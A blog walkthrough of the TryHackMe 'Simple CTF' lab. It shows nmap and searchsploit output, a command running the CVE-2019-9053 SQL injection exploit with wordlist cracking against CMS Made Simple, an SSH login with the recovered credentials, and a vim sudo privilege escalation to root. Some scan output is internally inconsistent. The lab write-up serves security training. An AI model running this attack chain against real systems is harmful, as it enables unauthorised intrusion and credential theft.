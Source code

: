 ```yaml
---
title: TryHackMe Simple CTF
date: 2021-07-19T22:32:49+05:30
lastmod: 2021-07-19T22:32:49+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - Simple CTF

draft: false
description: TryHackMe Room Simple CTF solved by Animesh Roy. this is a walkthough. read more...

---
```



|OverView| |
|---|:---:|
|Simple CTF|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png)|
|room| [Simple CTF](https://tryhackme.com/room/easyctf)|
---

## Task 01: Simple CTF

## How many services are running under port 1000?

### recon

* nmap
  
     ```nmap
     sudo nmap -p 0-999 10.10.38.103 -v -oN 1000-port

     Starting Nmap 7.60 ( https://nmap.org ) at 2021-07-19 18:14 BST
     Initiating ARP Ping Scan at 18:14
     Scanning 10.10.38.103 [1 port]
     Completed ARP Ping Scan at 18:14, 0.22s elapsed (1 total hosts)
     Initiating Parallel DNS resolution of 1 host. at 18:14
     Completed Parallel DNS resolution of 1 host. at 18:14, 0.00s elapsed
     Initiating SYN Stealth Scan at 18:14
     Scanning ip-10-10-38-103.eu-west-1.compute.internal (10.10.38.103) [1000 ports]
     Discovered open port 21/tcp on 10.10.38.103
     Discovered open port 80/tcp on 10.10.38.103
     Completed SYN Stealth Scan at 18:14, 10.05s elapsed (1000 total ports)
     Nmap scan report for ip-10-10-38-103.eu-west-1.compute.internal (10.10.38.103)
     Host is up (0.00037s latency).
     Not shown: 998 filtered ports
     PORT   STATE SERVICE
     21/tcp open  ftp
     80/tcp open  http
     2222/tcp open  EtherNetIP-1
     MAC Address: 02:A2:72:52:C3:F7 (Unknown)

     Read data files from: /usr/bin/../share/nmap
     Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
               Raw packets sent: 2006 (88.248KB) | Rcvd: 10 (424B)
     ```

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## What is running on the higher port?

* Service Scan on port `2222`

     ```bash
     sudo nmap -p 2222 -sC -sV -oN 2222

     Starting Nmap 7.60 ( https://nmap.org ) at 2021-07-19 18:56 BST
     WARNING: No targets were specified, so 0 hosts scanned.
     Nmap done: 0 IP addresses (0 hosts up) scanned in 0.75 seconds
     ```

---

## What's the CVE you're using against the application?

* nmap service enumeration
  
     ```nmap
     sudo nmap -sC -sV -oN nmap/servicescan -p 22,80,2222 10.10.38.103          1 ⨯
     [sudo] password for anir0y: 
     Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 23:32 IST
     Nmap scan report for 10.10.38.103
     Host is up (0.15s latency).

     PORT     STATE    SERVICE VERSION
     22/tcp   filtered ssh
     80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
     | http-robots.txt: 2 disallowed entries 
     |_/ /openemr-5_0_1_3 
     |_http-server-header: Apache/2.4.18 (Ubuntu)
     |_http-title: Apache2 Ubuntu Default Page: It works
     2222/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
     | ssh-hostkey: 
     |   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
     |   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
     |_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
     Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
     Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
     ```

* Good Old go-Buster the URL:

     ![img](https://i.imgur.com/PO17Ilt.png)

* found the dir `/simple`

     ![img](https://i.imgur.com/0tNzgsZ.png)

     > Application is: CMS Made Simple
     >  
     > Version: 2.2.8

* SearchSploit this

     ```bash
     ┌──(anir0y㉿kali)-[~/share/thm/room/easyctf]
     └─$ searchsploit CMS Made Simple | grep '2.2'
     CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                         | php/webapps/26298.txt
     CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                         | php/webapps/26217.html
     CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                      | php/webapps/29272.txt
     CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                            | php/webapps/4810.txt
     CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                  | php/webapps/48779.py
     CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                    | php/webapps/48742.txt
     CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)        | php/webapps/48851.txt
     CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                     | php/webapps/49793.txt
     CMS Made Simple 2.2.15 - RCE (Authenticated)                                    | php/webapps/49345.txt
     CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authe | php/webapps/49199.txt
     CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                   | php/webapps/44976.py
     CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                   | php/webapps/45793.py
     CMS Made Simple < 2.2.10 - SQL Injection                                        | php/webapps/46635.py                          
     ```

Looking at the searchsploit result we find tons of vulnerabilities. The question asked in the challenge is the CVE number. So searching more against the cms service I bumped across exploit DB and it showed me the CVE number associated with this vulnerability, also when I compared the results with the searchsploit data I decided to go for the SQL injection vulnerability

* exploit DB
  
     [![img](https://i.imgur.com/8NG6I4I.png)](https://www.exploit-db.com/exploits/46635)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## To what kind of vulnerability is the application vulnerable?

> refer to [Previous Findings](#whats-the-cve-youre-using-against-the-application)

---

## What's the password?

please remember this is `python 2` tool, you might need to install `pip2` in order to install `termcolor` lib. refer to this [post](https://classroom.anir0y.in/post/pip2-install/)

* SQL injection:
  
     ```bash
     #run the exploit
     python CVE-2019-9053.py -u http://10.10.38.103/simple --crack -w /usr/share/wordlists/rockyou.txt
     ```

     ![img](https://i.imgur.com/obx2Pk0.png)

---

## Where can you login with the details obtained?

* SSH into the Box with Found creds:

     - SSH on port 22 is filtered
     ![img](https://i.imgur.com/SRZWeYt.png)

     - Try SSH into other Found Port
     ![img](https://i.imgur.com/J0uHkMU.png)

it worked!!

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## What's the user flag?

*
     ![img](https://i.imgur.com/EunpfmZ.png)

---

## Is there any other user in the home directory? What's its name?

* check `home dir`

     ```bash
          ls /home
          mitch  sunbath
     ```

---

## What can you leverage to spawn a privileged shell?

usually I start with `sudo -l` to verify if the current user have any sudo privs or not.

* run `sudo -l`
  
     ```bash
     $ sudo -l
     User mitch may run the following commands on Machine:
     (root) NOPASSWD: /usr/bin/vim
     ```

---

## What's the root flag?

* GTFO bins for the found application!

     ![img](https://i.imgur.com/vIOVgJ3.png)


---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
